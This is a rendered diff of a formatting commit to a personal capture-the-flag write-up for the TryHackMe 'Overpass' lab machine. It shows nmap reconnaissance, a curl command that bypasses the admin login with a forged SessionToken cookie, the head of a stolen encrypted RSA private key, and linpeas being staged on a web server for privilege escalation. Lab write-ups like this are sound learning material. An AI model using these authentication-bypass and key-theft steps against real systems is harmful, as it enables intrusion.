

Before and after one commit to sudo-awk/CTF, a Markdown page: THM/overpass_.md, 2 parts joined by grey strips. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/THM/overpass_README.MD
+++ b/THM/overpass_.md
@@ -1,10 +1,12 @@
 # OVERPASS
 
-
- > Aaron Aguilar, Feb 09, 2023
+> Aaron Aguilar, Feb 09, 2023
 
 
- # 1. Hack the machine and get the flag in user.txt
+# Hack the machine and get the flag in user.txt
+
+### As usual we are going for a reconnaisance using nmap
+
 ```
 22/tcp open  ssh     syn-ack ttl 63
 | ssh-hostkey:
@@ -17,14 +19,14 @@
 |_http-title: Overpass
 | http-methods:
 |_  Supported Methods: GET HEAD POST OPTIONS
-
+```
 
 using gobuster I was able to find this page
 
-> http://10.10.146.29/admin/
+>- http://10.10.146.29/admin/
 
-looking at the source code in the login.js it sesms like we can just log in using a cookies
-
+### looking at the source code in the login.js it sesms like we can just log in using a cookies
+```
 }
 async function login() {
     const usernameBox = document.querySelector("#username");
@@ -42,11 +44,12 @@ async function login() {
         window.location = "/admin"
     }
 }
+```
+### honestly, I feel lost so I looked up the write ups and thankful that mr.john hammond uploaded his writeup for this... I followed his syntax up until he was able to get the rsa and then I stopped watching
 
-> honestly, I feel lost so I looked up the write ups and thankful that mr.john hammond uploaded his writeup for this... I followed his syntax up until he was able to get the rsa and then I stopped watching
-
-> by copying his syntax I was able to get the RSA_KEY
---$ curl http://10.10.146.29/admin/ --cookie "SessionToken='anything'"
+### by copying his syntax I was able to get the RSA_KEY
+```
+$ curl http://10.10.146.29/admin/ --cookie "SessionToken='anything'"
 
             <pre>-----BEGIN RSA PRIVATE KEY-----
 Proc-Type: 4,ENCRYPTED
@@ -123,17 +131,15 @@ To Do:
 > Ask Paradox how he got the automated build script working and where the builds go.
   They're not updating on the website
 james@overpass-prod:~$ [2023-02-09T00:43:11] Synchronising notes from Evernote.
+```
 
-
+### Privileged Escalation
 
 ```
 
-#  2. Escalate your privileges and get the flag in root.txt
-```
-
-> now I dont know what to do again, I was trying to check for any other clue but I dont get it..
+>- now I dont know what to do again, I was trying to check for any other clue but I dont get it..
 so I sent linpeas to enumerate the machine
-> on my kali box I shared my directory
+>- on my kali box I shared my directory
 
 └─$ sudo cp linpeas.sh /var/www/html
 [sudo] password for aaron:
````
Also changed, not shown: other parts of THM/overpass_.md (+11 -6 lines).
